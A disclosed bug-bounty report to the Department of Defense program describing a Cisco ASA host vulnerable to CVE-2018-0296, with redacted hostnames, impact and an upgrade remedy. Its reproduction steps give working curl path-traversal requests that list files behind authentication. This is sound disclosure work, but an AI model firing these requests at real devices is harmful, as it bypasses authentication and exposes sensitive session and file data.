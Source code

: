 # https://█████████ Vulnerable to CVE-2018-0296 Cisco ASA Path Traversal Authentication Bypass

## Report Details
- **Report ID**: 622864
- **URL**: https://hackerone.com/reports/622864
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-06-20T18:51:49.010Z
- **Disclosed**: 2019-10-04T15:15:36.786Z

## Reporter
- **Username**: warsong
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Summary:
https://█████ is an ASA running software vulnerable to CVE-2018-0296 which allows a remote attacker to exploit a path traversal vulnerability and bypass authentication to sensitive files. The attacker can use this to enumerate the ASA VPN web directory structure and exploit privileged access to the system to gain access to session information.

Step-by-step Reproduction Instructions

1. You can exploit with cURL or Burp: 
`curl -vk -m 45 --path-as-is https://████████/+CSCOU+/../+CSCOE+/files/file_list.json`
2. You can alter the command slightly to pull additional directory information: 
`curl -vk -m 45 --path-as-is https://█████████/+CSCOU+/../+CSCOE+/files/file_list.json?path=%2bCSCOE%2b` to dig into these privileged directories.
3. I also pushed a request to repeater to do this in Burp for screenshots.

Product, Version, and Configuration (If applicable) https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20180606-asaftd https://nvd.nist.gov/vuln/detail/CVE-2018-0296

Suggested Mitigation/Remediation Actions
Upgrade the ASA software version per the referenced advisory.

## Impact

High - This vulnerability allows the attacker to browse files past the authentication and disclose sensitive information.

## Attachments
No attachments
